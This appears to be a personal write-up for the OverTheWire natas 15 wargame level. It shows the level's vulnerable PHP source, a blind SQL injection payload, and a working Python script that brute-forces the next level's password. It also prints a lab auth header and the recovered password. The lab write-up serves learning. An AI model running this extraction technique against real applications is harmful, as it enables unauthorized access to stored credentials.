 ```yaml
---
title: natas 15 walkthrough
description: over the wire natas 15
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-15 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 15 walkthrough
    order: 30
---
```

## Description
>   Username: natas15
> 
>    URL:      http://natas15.natas.labs.overthewire.org
  
### Source Code 
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

---
## Progress
### Observation
It is an easy [[sql injection MOC]], but that seems useless.
Username : `natas16` -> This user exists.
The goal is retrieving the password of natas16. We cannot make the server print the password. The only thing we can do is check if the query returns anything. Therefore, we can input the password and check if the password is correct.
### Payload
Check password `natas16" and password = "pw" -- `
Find password

### Search by Exhaust
```python
import requests
from bs4 import BeautifulSoup

def request_with_password(password : str) -> bool:
    payload = f"?username=natas16\" and password like binary \"{password}%\" -- "
    return request_with_payload(payload)

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg==",
    }
    url = "http://natas15.natas.labs.overthewire.org/index.php"
    url += payload
    response = requests.get(url, headers=header)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return "exists" in content.__str__()

def main():
    success_password = ""
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

---
## Hint

---
## Solving
### Category
- [[sql injection MOC]]
### Techniques
- 

### Tools
- 